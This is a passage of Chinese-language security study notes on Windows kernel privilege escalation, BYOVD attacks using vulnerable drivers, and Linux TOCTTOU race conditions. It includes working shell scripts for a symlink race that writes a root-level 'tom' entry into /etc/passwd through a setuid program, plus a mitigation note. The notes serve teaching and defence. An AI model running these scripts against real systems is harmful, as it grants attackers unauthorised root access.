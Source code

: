                        g_isRing0ShellcodeCalled = 1;
                        return 0;
                    }
                    ```
                    * 提升进程的权限到system进程: 
                        * 可读SAM, SECURITY等注册表项
                        * 可访问系统还原文件`SYSTEM VOLUME INFORMATION`(要在高级设置中把`隐藏受保护的操作系统文件`的勾去掉)
                        * 可更换系统文件
                        * 可手动杀毒
                    * 恢复内核hook和inlinehook
                    * 添加调用门, 中断门等
    * 固定地址写任意数据
    * 任意地址写固定数据

* BYOVD(Bring your own vulnerable driver)
    * 攻击者向目标环境植入一个带有漏洞的合法驱动程序, 再通过漏洞利用获得内核权限以杀死/致盲终端安全软件等. 
    * 参考
        * [loldrivers](https://www.loldrivers.io/)
        * [Microsoft 推荐的驱动程序阻止规则](https://learn.microsoft.com/zh-cn/windows/security/application-security/application-control/windows-defender-application-control/design/microsoft-recommended-driver-block-rules)
        * 项目
            * https://github.com/zeze-zeze/CYBERSEC2023-BYOVD-Demo/blob/master/BYOVD/BYOVD.cpp

# Linux漏洞
* linux下的竞争条件漏洞(race condition)
    * 由于多个对象(线程/进程等)同时操作同一资源, 导致系统执行违背原有逻辑设定的行为. 
        * 写多线程程序时, 忘了对共享资源加锁. 
        * 刻舟求剑: 检查某个对象时, 其它线程可能正在改它, 但程序假设这些对象保持不变
    * 属于TOCTTOU(time-of-check-to-time-of-use)
    * 条件
        * 有两个或以上事件, 两个事件间有一定间隔, 且有一定关系(第二个依赖于第一个). 
        * 攻击者能够改变第一个事件所产生的, 为第二个条件所依赖的假设
    * 相关函数
        * `open(file_name, O_CREAT | O_EXCL | O_TRUNC | O_RDWR, 0600)`: 有`O_EXCL`则别的进程无法打开, 否则别的进程可在某漏洞进程打开该文件时同时操作该文件. 
    * 利用
        * 例子1
            * 假设有一个可执行文件(漏洞程序), 其**拥有者是root, 且有`s`权限**. 该程序通过标准I/O流向`/tmp/xyz`文件写入内容
            * 运行如下脚本, 以普通用户身份运行漏洞程序, 循环向程序输入`tom:ttXydORJt50wQ:0:0:,,,:/home:/bin/bash`(这行是要写入`/etc/passwd`文件的, 为tom用户获取管理员权限)

                ```sh
                while true
                do
                    ./vulp < attack_input # attack_input文件中的内容为: tom:ttXydORJt50wQ:0:0:,,,:/home:/bin/bash
                done
                ```
            * 运行如下脚本, 创造链接文件`/tmp/xyz`, 指向`/etc/passwd`, 于是上一步运行的脚本不停向`/etc/passwd`写入内容. 
                ```sh
                    old=`ls -l /etc/passwd`
                    new=`ls -l /etc/passwd`
                    while [ "$old" = "$new" ]
                    do
                        rm -f /tmp/XYZ
                        >/tmp/XYZ
                        ln -sf /etc/passwd /tmp/XYZ
                        new=`ls -l /etc/passwd` 
                    done
                ```
            * 注意
                * 根据 https://www.cxyzjd.com/article/HananoYousei/91364810 中的说法, `sudo sysctl -w fs.protected_symlinks=1` 即可防御攻击(默认即是1, 要完成攻击则需要设为0). 